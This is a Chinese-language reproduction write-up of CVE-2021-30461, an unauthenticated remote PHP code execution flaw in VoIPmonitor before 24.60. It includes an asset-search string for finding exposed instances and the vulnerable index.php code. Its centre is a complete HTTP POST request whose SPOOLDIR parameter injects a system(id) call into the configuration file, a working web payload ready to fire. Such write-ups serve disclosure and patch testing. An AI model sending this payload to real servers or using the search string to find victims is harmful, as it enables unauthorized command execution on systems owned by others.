

# VoIPmonitor 远程命令执行漏洞 CVE-2021-30461

## 漏洞描述

VoIPmonitor是“具有在Linux上运行的SIP RTP和RTCP VoIP协议的具有商业前端的开源网络数据包嗅探器”。

使用通过Web界面到达的用户提供的数据，允许未经身份验证的远程用户触发VoIPmonitor中的远程PHP代码执行漏洞。

## 漏洞影响

<a-checkbox checked>VoIPmonitor < 24.60</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"VoIPmonitor"</a-checkbox></br>

## 漏洞复现

登录页面如下


index.php文件中的关键代码

```php
$setConfigurationTypeValue_rslt = array();
if(file_exists('config/configuration.php')) {
	$existsConfiguration = true;
	if(isset($_POST['recheck'])) {
		if(!empty($_POST['SPOOLDIR'])) {
			setConfigurationTypeValue__index('SPOOLDIR', $_POST['SPOOLDIR']);
		}
	}
```


传入参数 recheck 和 SPOOLDIR， 并将`SPOOLDIR` 写入 `config/configuration.php` 中


发送如下请求包

```plain
POST /index.php HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:86.0) Gecko/20100101 Firefox/86.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 49

SPOOLDIR=test%22.system%28id%29.%22&recheck=annen
```





